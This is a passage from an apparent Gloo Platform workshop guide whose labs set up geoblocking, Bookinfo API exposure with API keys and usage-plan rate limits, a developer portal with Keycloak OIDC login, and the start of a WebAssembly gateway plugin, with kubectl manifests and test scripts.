        SecDebugLogLevel 9
        SecGeoLookupDb /etc/geoip/database/GeoLite2-Country.mmdb
        SecRule REQUEST_HEADERS:X-Envoy-External-Address "@geoLookup" "chain,id:22,deny,status:403,msg:'Blocked in prohibited country'"
        SecRule GEO:COUNTRY_CODE "@streq ${COUNTRY_CODE}"
    auditLogging:
      action: ALWAYS
      location: DYNAMIC_METADATA
EOF
```

Finally, repeat the test by refreshing the "httpbin" tab. This time you should see a successful response.

Let's apply the original `RouteTable` resources:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
  - '*'
  virtualGateways:
  - name: north-south-gw
    namespace: istio-gateways
    cluster: cluster1
  workloadSelectors: []
  http:
  - name: root
    matchers:
    - uri:
        prefix: /
    delegate:
      routeTables:
        - labels:
            expose: "true"
      sortMethod: ROUTE_SPECIFICITY
EOF
```

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: httpbin
  namespace: httpbin
  labels:
    expose: "true"
spec:
  http:
    - name: httpbin
      matchers:
      - uri:
          exact: /get
      forwardTo:
        destinations:
        - ref:
            name: not-in-mesh
            namespace: httpbin
            cluster: cluster1
          port:
            number: 8000
EOF
```

Also delete the WAF policy we created:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete wafpolicies.security.policy.gloo.solo.io geoblock
```

And finally, revert the patches to the ingress gateway and gateway service:

```bash
kubectl --context ${CLUSTER1} -n istio-gateways patch deployment $(kubectl --context ${CLUSTER1} -n istio-gateways get deploy -l istio=ingressgateway -o jsonpath='{.items[0].metadata.name}') --type json --patch-file data/steps/gateway-geoblock/gateway-patch-revert.json
kubectl --context ${CLUSTER1} -n istio-gateways patch svc $(kubectl --context ${CLUSTER1} -n istio-gateways get svc -l istio=ingressgateway -o jsonpath='{.items[0].metadata.name}') -p '{"spec":{"externalTrafficPolicy":"Cluster"}}'
```


## Lab 16 - Expose the productpage API securely <a name="lab-16---expose-the-productpage-api-securely-"></a>
[](https://youtu.be/pkzeYaTj9k0 "Video Link")


Gloo Platform includes a developer portal, which is well integrated with its core API.

Let's start with API discovery.

Annotate the `productpage` service to allow the Gloo Platform agent to discover its API:

```bash
kubectl --context ${CLUSTER1} -n bookinfo-frontends annotate service productpage gloo.solo.io/scrape-openapi-source=https://raw.githubusercontent.com/istio/istio/master/samples/bookinfo/swagger.yaml --overwrite
kubectl --context ${CLUSTER1} -n bookinfo-frontends annotate service productpage gloo.solo.io/scrape-openapi-pull-attempts="3" --overwrite
kubectl --context ${CLUSTER1} -n bookinfo-frontends annotate service productpage gloo.solo.io/scrape-openapi-retry-delay=5s --overwrite
kubectl --context ${CLUSTER1} -n bookinfo-frontends annotate service productpage gloo.solo.io/scrape-openapi-use-backoff="true" --overwrite
```

<!--bash
until kubectl --context ${CLUSTER1} -n bookinfo-frontends get apidoc productpage-service; do
  kubectl --context ${CLUSTER1} -n bookinfo-frontends rollout restart deploy productpage-v1
  sleep 10
done
-->

An `APIDoc` Kubernetes object should be automatically created:

```shell
kubectl --context ${CLUSTER1} -n bookinfo-frontends get apidoc productpage-service -o yaml
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("APIDoc has been created", () => {
    it('APIDoc is present', () => helpers.k8sObjectIsPresent({ context: process.env.CLUSTER1, namespace: "bookinfo-frontends", k8sType: "apidoc", k8sObj: "productpage-service" }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/dev-portal-api/tests/apidoc-created.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You should get something like this:

```yaml,nocopy
apiVersion: apimanagement.gloo.solo.io/v2
kind: ApiDoc
metadata:
  creationTimestamp: "2023-04-05T06:48:33Z"
  generation: 1
  labels:
    reconciler.mesh.gloo.solo.io/name: schema-reporter-service
  name: productpage-service
  namespace: bookinfo-frontends
  resourceVersion: "116408"
  uid: 2ae9188c-713e-4ba3-86a6-8689f55cda0f
spec:
  openapi:
    inlineString: '{"components":{"schemas":{"Product":{"description":"Basic information
      about a product","properties":{"descriptionHtml":{"description":"Description
      of the book - may contain HTML tags","type":"string"},"id":{"description":"Product
      id","format":"int32","type":"integer"},"title":{"description":"Title of the
      book","type":"string"}},"required":["id","title","descriptionHtml"],"type":"object"},"ProductDetails":{"description":"Detailed
      information about a product","properties":{"ISBN-10":{"description":"ISBN-10
      of the book","type":"string"},"ISBN-13":{"description":"ISBN-13 of the book","type":"string"},"author":{"description":"Author
      of the book","type":"string"},"id":{"description":"Product id","format":"int32","type":"integer"},"language":{"description":"Language
      of the book","type":"string"},"pages":{"description":"Number of pages of the
      book","format":"int32","type":"integer"},"publisher":{"description":"Publisher
      of the book","type":"string"},"type":{"description":"Type of the book","enum":["paperback","hardcover"],"type":"string"},"year":{"description":"Year
      the book was first published in","format":"int32","type":"integer"}},"required":["id","publisher","language","author","ISBN-10","ISBN-13","year","type","pages"],"type":"object"},"ProductRatings":{"description":"Object
      containing ratings of a product","properties":{"id":{"description":"Product
      id","format":"int32","type":"integer"},"ratings":{"additionalProperties":{"type":"string"},"description":"A
      hashmap where keys are reviewer names, values are number of stars","type":"object"}},"required":["id","ratings"],"type":"object"},"ProductReviews":{"description":"Object
      containing reviews for a product","properties":{"id":{"description":"Product
      id","format":"int32","type":"integer"},"reviews":{"description":"List of reviews","items":{"$ref":"#/components/schemas/Review"},"type":"array"}},"required":["id","reviews"],"type":"object"},"Rating":{"description":"Rating
      of a product","properties":{"color":{"description":"Color in which stars should
      be displayed","enum":["red","black"],"type":"string"},"stars":{"description":"Number
      of stars","format":"int32","maximum":5,"minimum":1,"type":"integer"}},"required":["stars","color"],"type":"object"},"Review":{"description":"Review
      of a product","properties":{"rating":{"$ref":"#/components/schemas/Rating"},"reviewer":{"description":"Name
      of the reviewer","type":"string"},"text":{"description":"Review text","type":"string"}},"required":["reviewer","text"],"type":"object"}}},"externalDocs":{"description":"Learn
      more about the Istio BookInfo application","url":"https://istio.io/docs/samples/bookinfo.html"},"info":{"description":"This
      is the API of the Istio BookInfo sample application.","license":{"name":"Apache
      2.0","url":"http://www.apache.org/licenses/LICENSE-2.0.html"},"termsOfService":"https://istio.io/","title":"BookInfo
      API","version":"1.0.0"},"openapi":"3.0.3","paths":{"/products":{"get":{"description":"List
      all products available in the application with a minimum amount of information.","operationId":"getProducts","responses":{"200":{"content":{"application/json":{"schema":{"items":{"$ref":"#/components/schemas/Product"},"type":"array"}}},"description":"successful
      operation"}},"summary":"List all products","tags":["product"]}},"/products/{id}":{"get":{"description":"Get
      detailed information about an individual product with the given id.","operationId":"getProduct","parameters":[{"description":"Product
      id","in":"path","name":"id","required":true,"schema":{"format":"int32","type":"integer"}}],"responses":{"200":{"content":{"application/json":{"schema":{"$ref":"#/components/schemas/ProductDetails"}}},"description":"successful
      operation"},"400":{"description":"Invalid product id"}},"summary":"Get individual
      product","tags":["product"]}},"/products/{id}/ratings":{"get":{"description":"Get
      ratings for a product, including stars and their color.","operationId":"getProductRatings","parameters":[{"description":"Product
      id","in":"path","name":"id","required":true,"schema":{"format":"int32","type":"integer"}}],"responses":{"200":{"content":{"application/json":{"schema":{"$ref":"#/components/schemas/ProductRatings"}}},"description":"successful
      operation"},"400":{"description":"Invalid product id"}},"summary":"Get ratings
      for a product","tags":["rating"]}},"/products/{id}/reviews":{"get":{"description":"Get
      reviews for a product, including review text and possibly ratings information.","operationId":"getProductReviews","parameters":[{"description":"Product
      id","in":"path","name":"id","required":true,"schema":{"format":"int32","type":"integer"}}],"responses":{"200":{"content":{"application/json":{"schema":{"$ref":"#/components/schemas/ProductReviews"}}},"description":"successful
      operation"},"400":{"description":"Invalid product id"}},"summary":"Get reviews
      for a product","tags":["review"]}}},"servers":[{"url":"/api/v1"}],"tags":[{"description":"Information
      about a product (in this case a book)","name":"product"},{"description":"Review
      information for a product","name":"review"},{"description":"Rating information
      for a product","name":"rating"}]}'
  servedBy:
  - destinationSelector:
      port:
        number: 9080
      selector:
        cluster: cluster1
        name: productpage
        namespace: bookinfo-frontends
```

Note that you can create the `APIDoc` manually to allow you:
- to provide the OpenAPI document as code
- to declare an API running outside of Kubernetes (`ExternalService`)
- to target a service running on a different cluster (`VirtualDestination`)
- ...

We can now expose the API through Ingress Gateway using a `RouteTable`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: productpage-api-v1
  namespace: bookinfo-frontends
  labels:
    expose: "true"
    portal-users: "true"
    api: bookinfo
spec:
  portalMetadata:
    title: BookInfo REST API v1
    description: REST API for the Bookinfo application
    apiProductId: bookinfo
    apiProductDisplayName: BookInfo REST API
    apiVersion: v1
    customMetadata:
      lifecyclePhase: "General Availability"
  http:
    - matchers:
      - uri:
          prefix: /api/bookinfo/v1
      labels:
        apikeys: "true"
        ratelimited: "true"
        api: "productpage"
      forwardTo:
        pathRewrite: /api/v1/products
        destinations:
          - ref:
              name: productpage
              namespace: bookinfo-frontends
            port:
              number: 9080
EOF
```

You can see some labels set at the `RouteTable` and at the `route` level. We're going to take advantage of them later.

The `portalMetadata` section will be used when we'll expose the API through the developer portal.

You can think about this `RouteTable` as an API product. Also, note that we defined the version to be `v1`.

You should now be able to access the API through the gateway without any authentication:

```shell
curl -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/api/bookinfo/v1"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Access the API without authentication", () => {
  it('Checking text \'The Comedy of Errors\' in the response', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/api/bookinfo/v1', body: 'The Comedy of Errors', match: true }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/dev-portal-api/tests/access-api-no-auth.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Here is the expected output:

```json,nocopy
[{"id": 0, "title": "The Comedy of Errors", "descriptionHtml": "<a href=\"https://en.wikipedia.org/wiki/The_Comedy_of_Errors\">Wikipedia Summary</a>: The Comedy of Errors is one of <b>William Shakespeare's</b> early plays. It is his shortest and one of his most farcical comedies, with a major part of the humour coming from slapstick and mistaken identity, in addition to puns and word play."}]
```

You generally want to secure the access. Let's use API keys for that.

You need to create an `ExtAuthPolicy`: 

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: bookinfo-apiauth
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        apikeys: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
        - apiKeyAuth:
            headerName: api-key
            headersFromMetadataEntry:
              X-Solo-Plan:
                name: plan
                required: true
            k8sSecretApikeyStorage:
              labelSelector:
                auth: api-key
EOF
```

This policy will be attached to our `RouteTable` due to the label `apikeys: "true"` we set in its `route`.

Try to access the API without authentication:

```shell
curl -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/api/bookinfo/v1" -I
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Access to API unauthorized", () => {
  it('Response code is 401', () => helpers.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/api/bookinfo/v1', retCode: 401 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/dev-portal-api/tests/access-api-unauthorized.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

The access is refused (401 response):

```http
HTTP/2 401 
www-authenticate: API key is missing or invalid
date: Wed, 05 Apr 2023 08:13:11 GMT
server: istio-envoy
```

Let's create an API key for a user `user1`:

```bash
export API_KEY_USER1=apikey1
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: user1
  namespace: bookinfo-frontends
  labels:
    auth: api-key
type: extauth.solo.io/apikey
data:
  api-key: YXBpa2V5MQ==
  user-id: dXNlcjE=
  user-email: dXNlcjFAc29sby5pbw==
  plan: Z29sZA==
EOF
```

Now, you should be able to access the API using this API key:

```shell
curl -k -H "api-key: ${API_KEY_USER1}" "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/api/bookinfo/v1"
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("Access to API authorized", () => {
  it('Response code is 200', () => helpers.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/api/bookinfo/v1', headers: [{key: 'api-key', value: process.env.API_KEY_USER1}], retCode: 200 }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/dev-portal-api/tests/access-api-authorized.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

We'll see later that the API keys can be created on demand by the end user through the developer portal (and stored on Redis for better scalability).

So, we've secured the access to our API, but you generally want to limit the usage of your API.

We're going to create 3 usage plans (bronze, silver and gold).

The user `user1` is a gold user (`gold` base64 is `Z29sZA==`).

The `X-Solo-Plan` is created by the `ExtAuthPolicy` we have created earlier.

Then, we need to create a `RateLimitServerConfig` object to define the limits based on the descriptors we will use later:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerConfig
metadata:
  name: productpage
  namespace: bookinfo-frontends
spec:
  destinationServers:
  - ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
  raw:
    setDescriptors:
      - simpleDescriptors:
          - key: userId
          - key: usagePlan
            value: bronze
        rateLimit:
          requestsPerUnit: 1
          unit: MINUTE
      - simpleDescriptors:
          - key: userId
          - key: usagePlan
            value: silver
        rateLimit:
          requestsPerUnit: 3
          unit: MINUTE
      - simpleDescriptors:
          - key: userId
          - key: usagePlan
            value: gold
        rateLimit:
          requestsPerUnit: 5
          unit: MINUTE
EOF
```

It defines the limits for each plan.

After that, we need to create a `RateLimitPolicy` object to define the descriptors:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitPolicy
metadata:
  name: productpage
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        ratelimited: "true"
  config:
    serverSettings:
      name: rate-limit-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    raw:
      rateLimits:
      - setActions:
        - requestHeaders:
            descriptorKey: usagePlan
            headerName: X-Solo-Plan
        - metadata:
            descriptorKey: userId
            metadataKey:
              key: envoy.filters.http.ext_authz
              path:
                - key: userId
    ratelimitServerConfig:
      name: productpage
      namespace: bookinfo-frontends
      cluster: cluster1
    phase:
      postAuthz:
        priority: 1

EOF
```

This policy will be attached to our `RouteTable` due to the label `ratelimited: "true"` we set in its `route`.

Try to access the API more than 5 times:

```shell
for i in `seq 1 10`; do curl -k -H "api-key: ${API_KEY_USER1}" "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/api/bookinfo/v1" -I; done
```

You should be rate limited:

```http
HTTP/2 200 
content-type: application/json
content-length: 395
server: istio-envoy
date: Wed, 05 Apr 2023 08:44:42 GMT
x-envoy-upstream-service-time: 1

...

HTTP/2 429 
x-envoy-ratelimited: true
date: Wed, 05 Apr 2023 08:44:42 GMT
server: istio-envoy
```


## Lab 17 - Expose the dev portal backend <a name="lab-17---expose-the-dev-portal-backend-"></a>
[](https://youtu.be/mfXww6udYFs "Video Link")


Now that your API has been exposed securely and our plans defined, you probably want to advertise it through a developer portal.

Two components are serving this purpose:
- the Gloo Platform portal backend which provides an API
- the Gloo Platform portal frontend which consumes this API

In this lab, we're going to setup the Gloo Platform portal backend.

We need to expose the portal API through Ingress Gateway using a `RouteTable`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: portal-server
  namespace: gloo-mesh-addons
  labels:
    expose: "true"
spec:
  defaultDestination:
    ref:
      name: gloo-mesh-portal-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    port:
      number: 8080
  http:
    - forwardTo:
        pathRewrite: /v1
      name: authn-api-and-usage-plans
      labels:
        oauth: "true"
        route: portal-api
      matchers:
        - uri:
            prefix: /portal-server/v1
          headers:
            - name: Cookie
              #value: ".*?id_token=.*" # if not storing the id_token in Redis
              value: ".*?keycloak-session=.*" # if storing the id_token in Redis
              regex: true
    - name: no-auth-apis
      forwardTo:
        pathRewrite: /v1
      labels:
        route: portal-api
      matchers:
        - uri:
            prefix: /portal-server/v1
EOF
```

You should now be able to access the portal API through the gateway without any authentication:

```shell
curl -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/portal-server/v1/apis"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Access the portal API without authentication", () => {
  it('Checking text \'portal config not found\' in the response', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/portal-server/v1/apis', body: 'portal config not found', match: true }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/dev-portal-backend/tests/access-portal-api-no-auth-no-config.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Here is the expected output:

```json,nocopy
{"message":"portal config not found for host: 172.18.102.1"}
```

You can see that no portal configuration has been found.

Let's create it !

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: Portal
metadata:
  name: portal
  namespace: gloo-mesh-addons
spec:
  portalBackendSelectors:
    - selector:
        cluster: cluster1
        namespace: gloo-mesh-addons
  domains:
  - "*"
  usagePlans:
    - name: bronze
      displayName: "Bronze Plan"
      description: "A basic usage plan"
    - name: silver
      displayName: "Silver Plan"
      description: "A better usage plan"
    - name: gold
      displayName: "Gold Plan"
      description: "The best usage plan!"
  apis:
    - labels:
        api: bookinfo
EOF
```

Try again to access the API:

```shell
curl -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/portal-server/v1/apis"
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Access the portal API without authentication", () => {
  it('Checking text \'null\' in the response', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/portal-server/v1/apis', body: 'null', match: true }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/dev-portal-backend/tests/access-portal-api-no-auth-empty.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

The response should be an empty array: `[]`.

This is expected because you're not authenticated.

Users will authenticate on the frontends using OIDC and get access to specific APIs and plans based on the claims they'll have in the returned JWT token.

You need to create a `PortalGroup` object to define these rules:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: PortalGroup
metadata:
  name: portal-users
  namespace: gloo-mesh-addons
spec:
  name: portal-users
  description: a group for users accessing the customers APIs
  membership:
    - claims:
        - key: group
          value: users
  accessLevel:
    apis:
    - labels:
        portal-users: "true"
    usagePlans:
    - gold
EOF
```

All the users who will have a JWT token containing the claim `group` with the value `users` will have access to the APIs containing the label `portal-users: "true"`.

The `RouteTable` we have created for the `bookinfo` API has this label.


## Lab 18 - Deploy and expose the dev portal frontend <a name="lab-18---deploy-and-expose-the-dev-portal-frontend-"></a>


The developer frontend is provided as a fully functional template to allow you to customize it based on your own requirements.


Let's deploy it:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: v1
kind: ServiceAccount
metadata:
  name: portal-frontend
  namespace: gloo-mesh-addons
---
apiVersion: v1
kind: Service
metadata:
  name: portal-frontend
  namespace: gloo-mesh-addons
  labels:
    app: portal-frontend
    service: portal-frontend
spec:
  ports:
  - name: http
    port: 4000
    targetPort: 4000
  selector:
    app: portal-frontend
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: portal-frontend
  namespace: gloo-mesh-addons
spec:
  replicas: 1
  selector:
    matchLabels:
      app: portal-frontend
  template:
    metadata:
      labels:
        app: portal-frontend
    spec:
      serviceAccountName: portal-frontend
      containers:
      - image: djannot/portal-frontend:0.1
        args: ["--host", "0.0.0.0"]
        imagePullPolicy: Always
        name: portal-frontend
        ports:
        - containerPort: 4000
        readinessProbe:
          httpGet:
            path: /login
            port: 4000
        env:
        - name: VITE_PORTAL_SERVER_URL
          value: "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/portal-server/v1"
        - name: VITE_APPLIED_OIDC_AUTH_CODE_CONFIG
          value: "true"
        - name: VITE_OIDC_AUTH_CODE_CONFIG_CALLBACK_PATH
          value: "/v1/login"
        - name: VITE_OIDC_AUTH_CODE_CONFIG_LOGOUT_PATH
          value: "/v1/logout"
EOF
```

We can now expose the portal frontend through Ingress Gateway using a `RouteTable`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: portal-frontend
  namespace: gloo-mesh-addons
  labels:
    expose: "true"
spec:
  http:
    - name: portal-frontend-auth
      forwardTo:
        destinations:
          - port:
              number: 4000
            ref:
              name: portal-frontend
              namespace: gloo-mesh-addons
              cluster: cluster1
      labels:
        oauth: "true"
        route: portal-api
      matchers:
        - uri:
            prefix: /v1/login
        - uri:
            prefix: /v1/logout
    - name: portal-frontend-no-auth
      matchers:
      - uri:
          prefix: /
      forwardTo:
        destinations:
          - ref:
              name: portal-frontend
              namespace: gloo-mesh-addons
              cluster: cluster1
            port:
              number: 4000
EOF
```

<!--bash
cat <<'EOF' > ./test.js
const helpersHttp = require('./tests/chai-http');

describe("Access the portal frontend without authentication", () => {
  it('Checking text \'Developer Portal\' in the response', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/index.html', body: 'Developer Portal', match: true }));
})
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/dev-portal-frontend/tests/access-portal-frontend-no-auth.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=300 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

You should now be able to access the portal frontend through the gateway.


If you click on the `VIEW APIS` button, you won't see any API because we haven't defined any public API.

Get the URL to access the portal frontend using the following command:
```
echo "https://${ENDPOINT_HTTPS_GW_CLUSTER1}"
```

But we need to secure the access to the portal frontend.

First, you need to create a Kubernetes Secret that contains the OIDC secret:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: v1
kind: Secret
metadata:
  name: oauth
  namespace: gloo-mesh-addons
type: extauth.solo.io/oauth
data:
  client-secret: $(echo -n ${KEYCLOAK_SECRET} | base64)
EOF
```

Then, you need to create an `ExtAuthPolicy`: 

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: ExtAuthPolicy
metadata:
  name: portal
  namespace: gloo-mesh-addons
spec:
  applyToRoutes:
  - route:
      labels:
        oauth: "true"
  config:
    server:
      name: ext-auth-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    glooAuth:
      configs:
      - oauth2:
          oidcAuthorizationCode:
            appUrl: "https://${ENDPOINT_HTTPS_GW_CLUSTER1}"
            callbackPath: /v1/login
            clientId: ${KEYCLOAK_CLIENT}
            clientSecretRef:
              name: oauth
              namespace: gloo-mesh-addons
            issuerUrl: "${KEYCLOAK_URL}/realms/master/"
            logoutPath: /v1/logout
            session:
              failOnFetchFailure: true
              redis:
                cookieName: keycloak-session
                options:
                  host: redis:6379
            scopes:
            - email
            headers:
              idTokenHeader: id_token
EOF
```

<!--
Finally, we need to update the `RouteTable` we've created in the previous lab:

```
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: portal-server
  namespace: gloo-mesh-addons
  labels:
    expose: "true"
spec:
  defaultDestination:
    ref:
      name: gloo-mesh-portal-server
      namespace: gloo-mesh-addons
      cluster: cluster1
    port:
      number: 8080
  http:
    - name: portal-frontend-auth
      forwardTo:
        destinations:
          - port:
              number: 4000
            ref:
              name: portal-frontend
              namespace: gloo-mesh-addons
              cluster: cluster1
      labels:
        oauth: "true" # apply ext auth policy
        route: portal-api
      matchers:
        - uri:
            prefix: /portal-server/v1/login
    - forwardTo:
        pathRewrite: /v1
      name: authn-api-and-usage-plans
      labels:
        oauth: "true" # apply ext auth policy
        route: portal-api
      matchers:
        - uri:
            prefix: /portal-server/v1
          headers:
            - name: Cookie
              #value: ".*?id_token=.*" # match characters before id_token= and after id_token= zero to unlimited times
              value: ".*?keycloak-session=.*" # match characters before keycloak-session= and after keycloak-session= zero to unlimited times
              regex: true
    - forwardTo:
        pathRewrite: /v1/me
      name: authn-me
      labels:
        oauth: "true" # apply ext auth policy
        route: portal-api
      matchers:
        - uri:
            prefix: /portal-server/v1/me
    - forwardTo:
        pathRewrite: /v1/api-keys
      name: authn-api-keys
      labels:
        oauth: "true" # apply ext auth policy
        route: portal-api
      matchers:
        - uri:
            prefix: /portal-server/v1/api-keys
EOF
```
-->

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("Authentication is working properly", function() {
  let user = 'user1';
  let password = 'password';
  let keycloak_client_id = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n gloo-mesh-addons get extauthpolicy portal -o jsonpath='{.spec.config.glooAuth.configs[0].oauth2.oidcAuthorizationCode.clientId}'").stdout.replaceAll("'", "");
  let keycloak_client_secret_base64 = chaiExec("kubectl --context " + process.env.CLUSTER1 + " -n gloo-mesh-addons get secret oauth -o jsonpath='{.data.client-secret}'").stdout.replaceAll("'", "");
  let buff = new Buffer(keycloak_client_secret_base64, 'base64');
  let keycloak_client_secret = buff.toString('ascii');
  let keycloak_token = JSON.parse(chaiExec('curl -d "client_id=' + keycloak_client_id + '" -d "client_secret=' + keycloak_client_secret + '" -d "scope=openid" -d "username=' + user + '" -d "password=' + password + '" -d "grant_type=password" "' + process.env.KEYCLOAK_URL +'/realms/master/protocol/openid-connect/token"').stdout.replaceAll("'", "")).id_token;
  it("The portal frontend is accessible after authenticating", () => helpersHttp.checkURL({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/index.html', headers: [{key: 'Authorization', value: 'Bearer ' + keycloak_token}], retCode: 200 }));
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone-portal-beta-v2/build/templates/steps/apps/bookinfo/dev-portal-frontend/tests/access-portal-frontend-authenticated.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Note that The `ExtAuthPolicy` is enforced on both the `portal-frontend` and `portal-server` `RouteTables`.

If you click on the `LOGIN` button on the top right corner, you'll be redirected to keycloak and should be able to auth with the user `user1` and the password `password`.

Now, if you click on the `VIEW APIS` button, you should see the `Bookinfo REST API`.


## Lab 19 - Envoy attributes to headers with WebAssembly <a name="lab-19---envoy-attributes-to-headers-with-webassembly-"></a>

WebAssembly (Wasm) is the future of cloud-native infrastructure extensibility.

Wasm is a safe, secure, and dynamic way of extending infrastructure with the language of your choice. WASM tool chains compile your code from any of the supported languages into a type-safe, binary format that can be loaded dynamically in a WASM sandbox/VM.

In this lab, we're going to build a new Wasm plugin to capture any [Envoy attribute](https://www.envoyproxy.io/docs/envoy/latest/intro/arch_overview/advanced/attributes) into a header.

[TinyGo](https://tinygo.org/) must be installed.

Let's build an OCI image for that purpose:

```bash
pushd data/steps/web-assembly-attributes
go mod init web-assembly-attributes
go get github.com/tetratelabs/proxy-wasm-go-sdk/proxywasm
go get github.com/tetratelabs/proxy-wasm-go-sdk/proxywasm/types
go get github.com/tidwall/gjson
tinygo build -o plugin.wasm -scheduler=none -target=wasi ./main.go
docker build -t localhost:5000/metadata-headers:0.1 .
docker push localhost:5000/metadata-headers:0.1
popd
```

We can now deploy the Wasm plugin on the gateway:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: extensions.istio.io/v1alpha1
kind: WasmPlugin
metadata:
  name: attributes-to-headers
  namespace: istio-gateways
spec:
  selector:
    matchLabels:
      istio: ingressgateway
